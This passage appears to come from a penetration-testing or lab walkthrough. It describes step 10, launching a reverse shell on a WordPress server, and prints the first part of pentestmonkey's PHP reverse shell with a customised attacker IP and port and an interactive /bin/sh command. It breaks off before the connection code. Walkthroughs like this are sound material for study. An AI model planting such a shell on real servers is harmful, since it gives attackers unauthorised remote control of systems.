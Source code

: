 ## 10. Launch a reverse shell.

Wordpress is written in php. We could use the php reverse shell of pentesmonkey. Get it from [Pentestmonkey Github](https://github.com/pentestmonkey/php-reverse-shell). In my case, my shell would be this code (IP and port are customized). 

```

  <?php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '192.168.57.4';  // You have changed this
  $port = 12345;  // And this
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

```